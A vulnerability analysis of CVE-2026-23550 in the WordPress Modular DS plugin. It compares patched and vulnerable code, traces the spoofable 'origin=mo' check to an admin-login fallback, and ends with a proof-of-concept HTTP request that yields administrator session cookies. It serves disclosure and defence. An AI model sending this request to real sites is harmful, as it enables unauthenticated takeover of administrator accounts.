

# CVE-2026-23550 WordPress Modular DS Plugin <= 2.5.1 is vulnerable to a high priority Privilege Escalation


# WordPress Modular DS Plugin Privilege Escalation Vulnerability

## Overview

- **Published:** 2026-01-14
- **CVE-ID:** CVE-2026-23550
- **CVSS:** 10.0 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
- **Affected Plugin:** WordPress Modular DS Plugin
- **Affected Versions:** <= 2.5.1
- **Vulnerability Type:** High priority Privilege Escalation
- **CWE:** CWE-266 Incorrect Privilege Assignment

## Description
Incorrect Privilege Assignment vulnerability in Modular DS allows Privilege Escalation.This issue affects Modular DS: from n/a through 2.5.1.

## Patch And Commit Analysis


Based on development history, I will compare between **Modular DS** version **2.5.1 (Vulnerable)** and **Modular DS** **version 2.5.2 (Patch)**.

**Route Matching Logic Hardening**


**Observation**:
The **patch** introduces a **significant change** in how the plugin handles incoming **HTTP requests** and route matching within the `bootHttp` method.

- **Before Patch (Vulnerable State)**:
In the **vulnerable version** (right side of the diff), the code directly attempted to match the incoming request against registered routes using:

```php 
$route = $routes->match($request);
```

This implementation **implicitly trusted** the standard **router** to validate the request. If the **URL structure** matched a registered endpoint (e.g., /api/modular-connector/login/), the application would proceed to check `HttpUtils::isDirectRequest()`. Since the **isDirectRequest** logic was flawed (relying on spoofable inputs), this direct routing mechanism facilitated the bypass by allowing the request to reach the execution flow effortlessly.

- **After Patch (Secured State)**:
The **patched** version (left side of the diff) replaces the direct routing call with a filter hook:

```php 
$route = apply_filters('ares/routes/match', \false);
```

**Key Changes & Security Implications:**

- **Default Deny Principle**: The standard route matching is replaced by a filter that defaults to `\false`. This means that by default, no route is matched, and the request is **treated** as invalid unless explicitly authorized by a hooked function.
- **Execution Flow Control**: By removing the direct `$routes->match($request)` call, the **developers** have decoupled the **URL structure** from immediate execution. The plugin **no longer** automatically resolves the route based solely on the URL path.
- **Filter-Based Validation**: The introduction of the `ares/routes/match` filter forces the **routing logic** to **pass through a validation layer**. This prevents the `"Direct Request"` check from being triggered solely by a crafted URL, effectively neutralizing the entry point used by the **exploit**.

**Patch Analysis: API Routing Hardening**


**Observation**:
The developers introduced a new `"default"`route definition at the end of the **api.php** file (highlighted in green in the patch diff).

- **Before Patch (Vulnerable State)**:
The route file simply listed the **functional endpoints** (e.g., for Backup, WooCommerce, Safe Upgrade). If a request did **not match** these specific routes but was **manipulated** to satisfy the **isDirectRequest()** check in the **Bootloader**, the application flow could behave **unpredictably**, potentially falling through to a **privileged** state due to the loose coupling in the router.

- **After Patch (Secured State)**:
A specific "catch-all" route has been added:

```php 
Route::get('default/request', function () {
    abort(404);
})->name('default');
```

**Security Implications**:

- Explicit Termination (Fail-Safe): This new route acts as a safety net. It explicitly defines a default/request endpoint that triggers an abort(404).
- Prevention of Route Ambiguity: By registering this default route, the developers ensure that the routing logic has a concrete fallback. Even if an attacker attempts to manipulate the request flow, this route serves as a "dead end," forcing the application to terminate with a "Not Found" error rather than processing unintended logic.

**Patch Analysis: Route Binding Enforcement**


**Observation**:
The **bindOldRoutes** method has undergone a critical reordering of operations to enforce the `"Secure Default"` strategy introduced in the previous steps.

- **Before Patch (Vulnerable State)**:
The code prioritized the bypass check above all else:

```php 
public function bindOldRoutes($route, $removeQuery = false) {
    if (HttpUtils::isDirectRequest()) {
        return $route;
    }
    // ... route loading happens later
}
```

**Vulnerability**: This was the definitive failure point. By placing **isDirectRequest()** at the very top, the application allowed the execution flow to return early if the malicious **origin=mo** parameter was present. It effectively short-circuited the routing initialization, returning a route object before a safe baseline was established.

- **After Patch (Secured State)**:
The developers inverted the logic to prioritize the initialization of the default route:

```php 
public function bindOldRoutes($removeQuery = false) {
    $routes = app('router')->getRoutes();
    $route = $routes->getByName('default'); // Retrieve the 404 trap-door defined in api.php
    $route->bind(request()); // Explicitly bind the request to this safe default first

    if (HttpUtils::isDirectRequest()) {
        return $route;
    }
    // ...
}
```

**Security Implications**:

- Pre-emptive Binding: The patch ensures that before any "Direct Request" checks are performed, the request is firmly bound to the default route (which resolves to a 404 Abort).
- Fail-Safe State: Even if the isDirectRequest() check passes (or is tricked), the underlying route object has already been initialized to a safe, non-privileged state. The system assumes the request is invalid until proven otherwise by standard routing mechanisms, preventing the "unauthenticated admin" escalation.

Those 3 patches make the bug been fixed.

## Vulnerability Technical Analysis

**Root Cause**: Trust Boundary Violation in Request Validation


The **core vulnerability** stems from an insecure implementation of the **"Direct Request"** verification mechanism via the `isDirectRequest()` method. The application attempts to distinguish internal or trusted traffic using a weak indicator of trust, specific HTTP query parameters.

- **The Flaw**: The logic strictly relies on the presence of the origin parameter set to 'mo' and a non-empty type parameter.

- **Security Weakness**: There is a complete absence of cryptographic verification (such as HMAC signatures, API secrets, or IP allowlisting). This allows any external actor to spoof a trusted request by simply appending ?origin=mo&type=1 to the URL, effectively bypassing the initial trust boundary.

**Authentication Bypass: Insufficient Guard Logic**


While the **sensitive API** routes are technically protected by the **auth middleware**, the guard logic contains a critical flaw when handling requests flagged as **"Direct."**

Upon receiving a spoofed **"Direct Request"** (as described above), the **middleware** delegates validation to the `validateOrRenewAccessToken()` function.

- **The Logic Gap**: This function validates the state of the configuration (i.e., checking if the WordPress site has active tokens connected to the Modular platform) rather than validating the authenticity of the current request.

- **Impact**: Consequently, if a target site is already connected to the Modular service (a standard operational state), the middleware erroneously authorizes the spoofed request without requiring any session cookies or credentials.

**The Sink: Unsafe Default Execution Leading to Account Takeover**


The most severe impact manifests in the `/login/{modular_request}` endpoint. The **getLogin** controller exhibits an **unsafe fallback behavior** when processing user identification.

The execution flow is as follows:

- **Input Parsing**: The method attempts to retrieve a User ID from the request body.

- **Dangerous Fallback**: If the User ID is missing (which is trivial to omit in a GET request), the system does not deny access. Instead, it executes ServerSetup::getAdminUser().

- **Privilege Escalation**: The application automatically retrieves the highest-privileged administrator account and generates a valid session via ServerSetup::loginAs().

**Conclusion**: This chain of failures turns a simple parameter spoofing vulnerability into a full-chain Zero-Click Administrator Account Takeover.

## Vulnerability Execution Trace

**Source (User Input Entry Point)**

- **File**: vendor/ares/framework/src/Foundation/Http/HttpUtils.php
- **Method**: isDirectRequest()
- **Trace**:
The application accepts untrusted input directly from the global HTTP Request.

```php 
// [Source] Data enters here via $_GET parameters
$originQuery = $request->get('origin') === 'mo'; // Tainted Input 1
$isFromQuery = ($originQuery) && $request->has('type'); // Tainted Input 2

if ($isFromQuery) {
    return true; // [Taint Propagation] Boolean 'true' is returned based on tainted input
}
```

**Propagation (Logic Bypass)**

- **File**: src/app/Providers/RouteServiceProvider.php
- **Method**: bindOldRoutes()
- **Trace**:
The tainted boolean flows into the routing logic, causing an early return.

```php 
// [Propagation] The check consumes the tainted boolean
if (HttpUtils::isDirectRequest()) { 
    return $route; // [Bypass Point] Critical security binding (404 default) is skipped
}
```

**Propagation (Route Matching)**

- **File**: src/Foundation/Bootloader.php
- **Method**: bootHttp()
- **Trace**:
Because the security binding was skipped, the Bootloader processes the request as valid.

```php 
if (HttpUtils::isDirectRequest()) {
    // [Propagation] Route is matched against /api/modular-connector/login/
    $route = $routes->match($request); 
}
```

**Sink (Dangerous Execution)**

- **File**: src/app/Http/Controllers/AuthController.php
- **Method**: getLogin(SiteRequest $request)
- **Trace**:
The execution lands in the controller, triggering the final exploit.

```php 
// [Sink Entry]
public function getLogin($request) {
    $user = data_get($request->body, 'id'); // Returns NULL for simple GET request

    if (empty($user)) {
        // [Vulnerability Trigger] Unsafe Default Behavior
        $user = ServerSetup::getAdminUser(); // Fetches Admin User
    }

    // [Critical Sink] Admin session creation
    $cookies = ServerSetup::loginAs($user, true); 

    return Redirect::to_admin();
}
```



## Proof Of Concept (POC)

**HTTP Request (Burp Suite)**
The following request demonstrates the successful exploitation. Note the inclusion of a dummy ID (1) in the path to satisfy the route requirement `/login/{modular_request}`.

**Request**:

```HTTP 
GET /api/modular-connector/login/1?origin=mo&type=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 2
```

**Response (Evidence of Success)**:
As seen in the screenshot, the server responds with a 302 Found and issues a WordPress Administrator session cookie.

```HTTP 
HTTP/1.1 302 Found

Date: Wed, 11 Feb 2026 01:30:08 GMT

Server: Apache/2.4.65 (Debian)

Referrer-Policy: strict-origin-when-cross-origin

X-Frame-Options: SAMEORIGIN

Content-Security-Policy: frame-ancestors 'self';

Set-Cookie: wordpress_86a9106ae65537651a8e456835b316ab=phat%7C1770946208%7CI8UfeyCY5HKE39kdnxb12tIxrjcOiFyjKQAbJkhnpNN%7C9ddb1cf62adb703f7e0368643e1cfb68088818d53d873dbd10dce39edd845653; path=/wp-content/plugins; HttpOnly

Set-Cookie: wordpress_86a9106ae65537651a8e456835b316ab=phat%7C1770946208%7CI8UfeyCY5HKE39kdnxb12tIxrjcOiFyjKQAbJkhnpNN%7C9ddb1cf62adb703f7e0368643e1cfb68088818d53d873dbd10dce39edd845653; path=/wp-admin; HttpOnly

Set-Cookie: wordpress_logged_in_86a9106ae65537651a8e456835b316ab=phat%7C1770946208%7CI8UfeyCY5HKE39kdnxb12tIxrjcOiFyjKQAbJkhnpNN%7Cfbd24ca1c3c008b4bb1c8bda780d4a540bce822794d5ae397b773a074215dd4c; path=/; HttpOnly

Cache-Control: no-cache, private

Location: http://localhost/wp-admin/index.php

Content-Type: text/html; charset=utf-8

Content-Length: 386


<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://localhost/wp-admin/index.php'" />

        <title>Redirecting to http://localhost/wp-admin/index.php</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost/wp-admin/index.php">http://localhost/wp-admin/index.php</a>.
    </body>
</html>
```


Using the admin cookie granted by Modular DS, I attempted to access /wp-admin and received a 302/301 response. I will now load the session in the browser to verify if it works.


Successful redirection to the administrative dashboard confirms the privilege escalation vulnerability. This concludes the Proof of Concept.
